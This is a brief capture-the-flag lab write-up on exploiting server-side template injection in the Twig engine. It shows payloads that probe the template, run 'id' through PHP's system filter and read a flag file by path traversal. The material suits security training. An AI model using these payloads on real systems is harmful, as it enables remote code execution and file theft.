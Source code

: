 # Exploiting SSTI - Twig

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise the web application is running the Twig template engine, so lets focus on its specific payloads to retrieve the flag.

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Lets try to get some information with this payload:

```twig
{{ _self }}
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

And its working! Now lets work on the payload.

Lets try to use the PHP built-in function `system`:

```twig
{{ ['id'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

As we can see we manage to execute the `id` command on the webserver. Now all we have to do is to work on the payload to retrieve the flag. We can use this one:

```twig
{{ ['cat ../../../flag.txt'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

And we did it!
